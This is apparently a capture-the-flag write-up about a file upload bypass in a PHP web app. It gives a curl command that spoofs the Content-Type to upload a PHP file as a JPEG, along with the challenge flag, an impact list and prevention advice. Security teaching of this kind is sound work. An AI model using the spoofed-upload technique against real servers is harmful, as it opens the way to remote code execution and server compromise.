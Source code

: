 # File Upload Bypass Vulnerability

## Overview
The upload feature at `/index.php?page=upload` allows attackers to upload PHP files by tricking the application to accept non-image files.

---

## Discovery

1. Upload form only allows `.jpg` and `.jpeg` files.
2. JavaScript blocks empty uploads, but not actual file content.
3. The app checks file extensions but not the real content.

---

## Exploitation

### **cURL Content-Type Spoofing**

```bash
echo '<?php echo "hello"; ?>' > test.php

curl http://<IP_ADDRESS>/index.php?page=upload \
  -F "Upload=Upload" \
  -F "uploaded=@test.php;type=image/jpeg" \
  -F "MAX_FILE_SIZE=100000"
```
- The PHP file is uploaded as if it’s a JPEG by spoofing the content-type.

---

## Flag

`46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`

---

## Security Impact

- **Remote Code Execution:** Upload and run PHP code on the server
- **Data Theft:** Access sensitive files and data
- **System Compromise:** Full server takeover possible

---

## Prevention

1. **Validate actual file content, not just extensions**
2. **Use libraries (like fileinfo) for file type checks**
3. **Re-encode images on the server**
4. **Store uploads in non-executable locations**
5. **Apply a strict Content Security Policy**

---
